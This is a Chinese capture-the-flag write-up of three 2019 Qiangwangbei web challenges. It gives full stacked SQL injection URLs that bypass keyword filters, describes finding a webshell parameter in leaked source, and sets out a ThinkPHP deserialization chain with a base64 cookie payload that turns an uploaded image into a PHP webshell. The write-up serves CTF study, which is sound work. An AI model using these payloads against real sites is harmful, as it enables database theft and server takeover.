最近到了考试月忙着复习，强网杯没时间打，只能趁着晚上熬夜偷鸡来复现了（考试月真心累…）
随便注
本题docker环境：https://github.com/CTFTraining/qwb_2019_supersqli
题目如下：

测试发现利用正则匹配过滤了关键字：select，update，drop，delete，insert，where等

这么狠的过滤还是第一次见到，如果正常而言真的是没有办法注入了，但是这题源码是能够支持堆叠查询的

我们可以看一下php手册中对函数mysqli_multi_query的说明：
1 | mysqli_multi_query() 函数执行一个或多个针对数据库的查询。多个查询用分号进行分隔。 |
在sql-labs 38关中也有对堆叠注入进行了特别的说明
下面我们就先利用堆叠注入看看表名，payload：http://127.0.0.1:8302/?inject=0%27;show%20tables;

表名有words和1919810931114514
我们再分别看看两个表分别的结构：
1 | http://127.0.0.1:8302/?inject=0%27;show%20columns%20from%20`words`; |


这里需要特别注意表1919810931114514时一定要通过``符号进行包裹，不然会报错
所以我们可以得出该数据库下的表结构：
- words
- id int(10)
- data varchar(20)
- 1919810931114514
- flag varchar(100)
由于flag在1919810931114514表中，那么源码查询的sql语句就为：
1 | select * from `words` where id='$id'; |
由于过滤了select关键字，我们可以使用预编译的方法来进行sql查询，另外alter和rename未被过滤，所以我们也可以通过修改表名和表的结构的方法来查询flag，所以这题有两种解题方法
预编译
预编译的语法如下：
1 | set @sql=concat('selec','t flag from `1919810931114514`'); |
构造payload：
1 | http://127.0.0.1:8302/?inject=0%27;set%20@sql=concat(%27selec%27,%27t%20flag%20from%20`1919810931114514`%27);prepare%20presql%20from%20@sql;execute%20presql;deallocate%20prepare%20presql; |
结果显示：strstr($inject, "set") && strstr($inject, "prepare");
由于函数strstr是区分大小写的，所以我们用大小写混合绕过即可
最后的payload：
1 | http://127.0.0.1:8302/?inject=0%27;Set%20@sql=concat(%27selec%27,%27t%20flag%20from%20`1919810931114514`%27);Prepare%20presql%20from%20@sql;execute%20presql;deallocate%20Prepare%20presql; |

修改表名和表结构
修改表名语法如下：
1 | RENAME TABLE tablename1 TO tablename2; |
修改表中的列语法如下：
1 | ALTER TABLE tablename CHANGE column1 column2 varchar(100); |
那么解题思路如下：
- 将words表修改为word表
- 将1919810931114514表修改为words表
- 将列flag修改为列id
根据源程序的sql语句：select * from words where id='$id';
就可以直接查询出flag了
payload如下：
1 | http://127.0.0.1:8302/?inject=0%27;RENAME%20TABLE%20`words`%20TO%20`word`;RENAME%20TABLE%20`1919810931114514`%20TO%20`words`;ALTER%20TABLE%20`words`%20CHANGE%20`flag`%20`id`%20varchar(100)%20CHARACTER%20SET%20utf8%20COLLATE%20utf8_general_ci%20NOT%20NULL;show%20columns%20from%20`words`; |

此时我们已经成功的将列flag修改成了id
最后用1' or '1查询出flag

高明的黑客
本题docker环境：https://github.com/CTFTraining/qwb_2019_smarthacker

下载备份源码www.tar.gz
可以发现是一堆带有疑似一句话木马的参数

但是很多参数都是不能用的，例如上图列举的某个参数已经事先赋值了，所以我们需要在众多文件中寻找出可以利用的一句话木马参数
搜索可得知文件中使用的命令函数大概有3种：eval，assert，system
编写脚本进行搜索：
1 | import os |
运行脚本后发现后门存在于xk0SzyKwfzw.php，木马参数为Efa5BVG


最后直接连上查找flag即可

upload
本题docker环境：https://github.com/CTFTraining/qwb_2019_upload
题目如下：

随意注册一个用户，登陆可以发现有上传文件功能

随便上传一个木马测试一下，发现后台对图片内容做了检测，在文件头加入GIF89A后可以上传马

上传后再次登陆用户后，可以发现页面回显出了我们上传文件的路径

访问该路径


发现我们上传的php文件是被为了png文件，因为没有找到存在文件包含的点，所以无奈只能扫描后台，看看有没有什么遗漏的提示文件

果然，发现了备份文件www.tar.gz，既然有源码那么就是考察代码审计了

下载下来后，发现是一个thinkphp框架，那么就先查看一下框架下的路由信息(tp5/route/route.php)
接下来，再找应用部分(tp5/application/web/controller/Index.php)

值得关注的点是函数login_check中的变量profile取自cookie中的user属性，之后对profile进行了反序列化，那么这里就可能存在通过cookie注入进行的反序化的点
我们继续审计controller下的其他文件，看看什么可以加以利用的地方

在Profile.php文件的方法upload_img中，有一个通过copy函数进行上传文件移动的操作，跟踪其中的参数$this->filename_tmp和$this->filename和操作执行的条件参数$this->ext

发现都是Profile类的公有属性，都是可以通过反序列化进行控制赋值的，所以暂时的思路就是利用反序列化将我们上传的png图片马修改为php文件木马
那么，如何让Profile类执行upload_img方法呢，让我们继续审计

在Profile类的末尾处，还发现了两个魔术方法：__get和__call，这两个魔术方法分别代表了在调用类的不可访问成员属性和不可访问方法时的处理方法。__get会从$this->except中查找不可访问的属性值，该变量也是可控的；__call会调用该类的成员变量所指代变量的所指代的方法
所以，审计到目前，思路更新如下：
通过cookie注入user属性进行反序列化
触发Profile类的
__call魔术方法，使其执行该类的upload_img方法将png图片马修改为php文件马
那么问题又来了，我们知道要触发__call魔术方法，就必须要让Profile类调用一个该类中不存在的方法，所以我们只能继续审计，继续寻找利用点

在Register.php的末尾了，我们又发现了一个魔术方法__destruct，该方法在类被销毁时自动触发。我们可以发现该方法一经触发，并且参数$this->registed为0时，就可以调用成员$this->checker的index方法
跟踪这两个参数$this->registed和$this->checker

太完美了，又是可以通过反序列化进行控制的变量
那么，最终得到思路如下：
- 通过cookie反序列化为Register类的$checker赋值为Profile类，触发魔术方法
__destruct后Profile类中的index方法 - Profile类中没有index方法，触发魔术方法__call，调用Profile类中的upload_img方法
- 将png图片马修改为php文件马
这样就形成了一条完整的攻击链
接下来就是编写EXP，代码如下：
1 |
|
这里注意需要设置命名空间 app\web\controller（要不然反序列化会出错，不知道对象实例化的是哪个类）
我们将前面上传的图片马路径记下，运行EXP后得到base64加密后的序列化字符串：
1 | TzoyNzoiYXBwXHdlYlxjb250cm9sbGVyXFJlZ2lzdGVyIjoyOntzOjc6ImNoZWNrZXIiO086MjY6ImFwcFx3ZWJcY29udHJvbGxlclxQcm9maWxlIjo0OntzOjEyOiJmaWxlbmFtZV90bXAiO3M6Nzg6Ii4vdXBsb2FkLzNiMTQxMjc1M2Y0NzVjYzk2OWMzNzIzMWRkNmVhZWEyLzkzYmMzYzAzNTAzZDg3NjhjZjdjYzFlMzljZTE2ZmNiLnBuZyI7czo4OiJmaWxlbmFtZSI7czo1MToiLi91cGxvYWQvM2IxNDEyNzUzZjQ3NWNjOTY5YzM3MjMxZGQ2ZWFlYTIvc2hlbGwucGhwIjtzOjM6ImV4dCI7YjoxO3M6NjoiZXhjZXB0IjthOjE6e3M6NToiaW5kZXgiO3M6MTA6InVwbG9hZF9pbWciO319czo4OiJyZWdpc3RlZCI7YjowO30%3D |
然后重新登陆时置cookie的user属性值

然后我们此时就可以发现，此时能成功访问到shell了


再重新上传个shell拿flag就行了
最后附上代码思路整理图：